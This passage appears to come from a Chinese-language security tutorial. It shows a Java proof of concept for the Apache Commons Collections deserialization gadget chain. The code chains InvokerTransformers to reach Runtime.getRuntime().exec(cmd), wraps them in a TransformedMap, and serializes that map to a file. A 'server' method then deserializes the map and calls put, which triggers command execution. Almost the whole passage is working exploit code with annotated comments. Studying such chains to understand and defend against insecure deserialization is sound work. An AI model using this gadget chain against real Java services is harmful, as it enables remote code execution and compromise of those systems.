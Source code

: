 ```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);
        // 创建并实例化文件输出流
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(transformedMap);
    }

    /*
    * 服务端
    *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
      	// 通过readObject方法进行反序列化
        Map map = (Map) in.readObject();
        map.put("id", "name");
    }
}
```

![image-20220913183349120](images/image-20220913183349120.png)
